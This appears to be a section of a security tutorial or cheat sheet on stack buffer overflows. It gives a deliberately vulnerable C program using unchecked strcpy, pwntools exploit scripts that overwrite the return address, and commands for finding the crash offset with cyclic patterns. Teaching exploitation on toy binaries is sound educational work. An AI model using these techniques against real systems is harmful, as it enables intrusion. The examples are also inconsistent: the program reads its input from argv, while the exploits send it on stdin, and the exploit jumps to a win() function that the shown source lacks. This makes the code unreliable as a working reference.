 ## 💥 Buffer Overflows

### Stack Buffer Overflow

**Vulnerable Code:**
```c
#include <stdio.h>
#include <string.h>

void vulnerable(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // No bounds checking!
}

int main(int argc, char **argv) {
    vulnerable(argv[1]);
    return 0;
}
```

**Exploitation:**
```python
from pwn import *

# Create payload
payload = b'A' * 72           # Fill buffer + saved RBP
payload += p64(0xdeadbeef)    # Overwrite return address

# Send to program
p = process('./vulnerable')
p.sendline(payload)
```

### Finding Offset

```bash
# Using pwntools
cyclic 200 > pattern.txt
./vulnerable $(cat pattern.txt)

# In GDB, get crash address
cyclic -l 0x61616162  # Returns offset
```

### Classic Buffer Overflow Exploit

```python
#!/usr/bin/env python3
from pwn import *

# Configuration
binary = './vulnerable'
elf = ELF(binary)

# Find offset
offset = 72

# Create payload
payload = b'A' * offset
payload += p64(0x4011d6)  # Address of win() function

# Exploit
p = process(binary)
p.sendline(payload)
p.interactive()
```